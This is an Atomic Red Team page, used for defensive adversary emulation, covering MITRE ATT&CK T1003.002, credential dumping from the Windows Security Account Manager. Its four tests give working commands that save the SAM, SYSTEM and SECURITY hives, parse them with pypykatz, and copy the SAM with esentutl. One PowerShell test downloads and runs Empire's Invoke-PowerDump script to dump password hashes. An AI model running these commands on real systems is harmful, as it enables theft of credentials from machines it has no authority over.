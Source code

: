 # T1003.002 - Security Account Manager
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1003/002)
<blockquote>Adversaries may attempt to extract credential material from the Security Account Manager (SAM) database either through in-memory techniques or through the Windows Registry where the SAM database is stored. The SAM is a database file that contains local accounts for the host, typically those found with the <code>net user</code> command. Enumerating the SAM database requires SYSTEM level access.

A number of tools can be used to retrieve the SAM file through in-memory techniques:

* pwdumpx.exe
* [gsecdump](https://attack.mitre.org/software/S0008)
* [Mimikatz](https://attack.mitre.org/software/S0002)
* secretsdump.py

Alternatively, the SAM can be extracted from the Registry with Reg:

* <code>reg save HKLM\sam sam</code>
* <code>reg save HKLM\system system</code>

Creddump7 can then be used to process the SAM database locally to retrieve hashes.(Citation: GitHub Creddump7)

Notes: 
* RID 500 account is the local, built-in administrator.
* RID 501 is the guest account.
* User accounts start with a RID of 1,000+.
</blockquote>

## Atomic Tests

- [Atomic Test #1 - Registry dump of SAM, creds, and secrets](#atomic-test-1---registry-dump-of-sam-creds-and-secrets)

- [Atomic Test #2 - Registry parse with pypykatz](#atomic-test-2---registry-parse-with-pypykatz)

- [Atomic Test #3 - esentutl.exe SAM copy](#atomic-test-3---esentutlexe-sam-copy)

- [Atomic Test #4 - PowerDump Registry dump of SAM for hashes and usernames](#atomic-test-4---powerdump-registry-dump-of-sam-for-hashes-and-usernames)


<br/>

## Atomic Test #1 - Registry dump of SAM, creds, and secrets
Local SAM (SAM & System), cached credentials (System & Security) and LSA secrets (System & Security) can be enumerated
via three registry keys. Then processed locally using https://github.com/Neohapsis/creddump7

Upon successful execution of this test, you will find three files named, sam, system and security in the %temp% directory.

**Supported Platforms:** Windows





#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
reg save HKLM\sam %temp%\sam
reg save HKLM\system %temp%\system
reg save HKLM\security %temp%\security
```

#### Cleanup Commands:
```cmd
del %temp%\sam >nul 2> nul
del %temp%\system >nul 2> nul
del %temp%\security >nul 2> nul
```





<br/>
<br/>

## Atomic Test #2 - Registry parse with pypykatz
Parses registry hives to obtain stored credentials

**Supported Platforms:** Windows





#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
pypykatz live registry
```




#### Dependencies:  Run with `powershell`!
##### Description: Computer must have python 3 installed
##### Check Prereq Commands:
```powershell
if (python --version) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
echo "Python 3 must be installed manually"
```
##### Description: Computer must have pip installed
##### Check Prereq Commands:
```powershell
if (pip3 -V) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
echo "PIP must be installed manually"
```
##### Description: pypykatz must be installed and part of PATH
##### Check Prereq Commands:
```powershell
if (cmd /c pypykatz -h) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
pip3 install pypykatz
```




<br/>
<br/>

## Atomic Test #3 - esentutl.exe SAM copy
Copy the SAM hive using the esentutl.exe utility
This can also be used to copy other files and hives like SYSTEM, NTUSER.dat etc.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| file_path | Path to the file to copy | Path | %SystemRoot%/system32/config/SAM|
| file_name | Name of the copied file | String | SAM|
| copy_dest | Destination of the copied file | String | %temp%|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
esentutl.exe /y /vss #{file_path} /d #{copy_dest}/#{file_name}
```

#### Cleanup Commands:
```cmd
del #{copy_dest}\#{file_name} >nul 2>&1
```





<br/>
<br/>

## Atomic Test #4 - PowerDump Registry dump of SAM for hashes and usernames
Executes a hashdump by reading the hasshes from the registry.

**Supported Platforms:** Windows





#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Write-Host "STARTING TO SET BYPASS and DISABLE DEFENDER REALTIME MON" -fore green
Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy RemoteSigned -ErrorAction Ignore
Invoke-Webrequest -Uri "https://raw.githubusercontent.com/BC-SECURITY/Empire/c1bdbd0fdafd5bf34760d5b158dfd0db2bb19556/data/module_source/credentials/Invoke-PowerDump.ps1" -UseBasicParsing -OutFile "$Env:Temp\PowerDump.ps1"
Import-Module .\PowerDump.ps1
Invoke-PowerDump
```






<br/>
